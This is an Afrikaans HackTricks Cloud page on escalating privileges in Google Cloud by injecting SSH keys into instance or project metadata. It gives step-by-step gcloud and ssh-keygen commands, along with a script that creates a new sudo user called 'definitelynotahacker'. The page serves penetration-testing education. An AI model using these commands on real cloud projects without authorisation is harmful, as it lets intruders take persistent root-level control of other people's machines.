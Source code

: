# GCP - Voeg Aangepaste SSH Metadata By

## GCP - Voeg Aangepaste SSH Metadata By

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Wysig die metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Metadata-wysig op 'n instansie kan lei tot **beduidende sekuriteitsrisiko's as 'n aanvaller die nodige toestemmings verkry**.

#### **Inkorporering van SSH Sleutels in Aangepaste Metadata**

Op GCP, **Linux stelsels** voer dikwels skripte uit vanaf die [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). 'n Kritieke komponent hiervan is die [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), wat ontwerp is om **gereeld** die instansie metadata-eindpunt na te gaan vir **opdaterings aan die geautoriseerde SSH publieke sleutels**.

As gevolg hiervan, as 'n aanvaller aangepaste metadata kan wysig, kan hy die daemon laat vind 'n nuwe publieke sleutel, wat verwerk en **geïntegreer sal word in die plaaslike stelsel**. Die sleutel sal bygevoeg word in die `~/.ssh/authorized_keys` lêer van 'n **bestaande gebruiker of moontlik 'n nuwe gebruiker met `sudo` toestemmings skep**, afhangende van die sleutel se formaat. En die aanvaller sal in staat wees om die gasheer te kompromitteer.

#### **Voeg SSH sleutel by bestaande bevoorregte gebruiker**

1. **Ondersoek Bestaande SSH Sleutels op die Instansie:**
*   Voer die opdrag uit om die instansie en sy metadata te beskryf om bestaande SSH sleutels te lokaliseer. Die relevante afdeling in die uitvoer sal onder `metadata` wees, spesifiek die `ssh-keys` sleutel.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Let op die formaat van die SSH sleutels: die gebruikersnaam kom voor die sleutel, geskei deur 'n dubbelpunt.
2. **Bereid 'n Tekslêer voor vir SSH Sleutel Metadata:**
* Stoor die besonderhede van gebruikersname en hul ooreenstemmende SSH sleutels in 'n tekslêer genaamd `meta.txt`. Dit is noodsaaklik om die bestaande sleutels te behou terwyl nuwe bygevoeg word.
3. **Genereer 'n Nuwe SSH Sleutel vir die Teiken Gebruiker (`alice` in hierdie voorbeeld):**
*   Gebruik die `ssh-keygen` opdrag om 'n nuwe SSH sleutel te genereer, en verseker dat die kommentaarveld (`-C`) ooreenstem met die teiken gebruikersnaam.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Voeg die nuwe publieke sleutel by `meta.txt`, wat die formaat naboots wat in die instansie se metadata gevind word.
4. **Werk die Instansie se SSH Sleutel Metadata Op:**
*   Pas die opgedateerde SSH sleutel metadata toe op die instansie met die `gcloud compute instances add-metadata` opdrag.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Toegang tot die Instansie met die Nuwe SSH Sleutel:**
*   Maak verbinding met die instansie met SSH met die nuwe sleutel, en toegang die skulp in die konteks van die teiken gebruiker (`alice` in hierdie voorbeeld).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Skep 'n nuwe bevoorregte gebruiker en voeg 'n SSH sleutel by**

As daar geen interessante gebruiker gevind word nie, is dit moontlik om 'n nuwe een te skep wat `sudo` toestemmings sal ontvang:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH sleutels op projekvlak <a href="#sshing-around" id="sshing-around"></a>

Dit is moontlik om die bereik van SSH-toegang tot verskeie Virtuele Masjiene (VM's) in 'n wolkomgewing te verbreed deur **SSH sleutels op projekvlak toe te pas**. Hierdie benadering laat SSH-toegang toe tot enige instansie binne die projek wat nie eksplisiet projekwye SSH-sleutels geblokkeer het nie. Hier is 'n samegevatte gids:

1. **Pas SSH Sleutels op die Projekvlak toe:**
*   Gebruik die `gcloud compute project-info add-metadata` opdrag om SSH sleutels van `meta.txt` by die projek se metadata te voeg. Hierdie aksie verseker dat die SSH sleutels oor alle VM's in die projek erken word, tensy 'n VM die "Blok projekwye SSH sleutels" opsie geaktiveer het.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH in Instansies met Projek-Wye Sleutels:**
* Met projek-wye SSH sleutels in plek, kan jy SSH in enige instansie binne die projek. Instansies wat nie projek-wye sleutels blokkeer nie, sal die SSH-sleutel aanvaar, wat toegang verleen.
* 'n Direkte metode om in 'n instansie te SSH is deur die `gcloud compute ssh [INSTANCE]` opdrag te gebruik. Hierdie opdrag gebruik jou huidige gebruikersnaam en die SSH sleutels wat op projekvlak gestel is om toegang te probeer verkry.

## Verwysings

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PR's in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
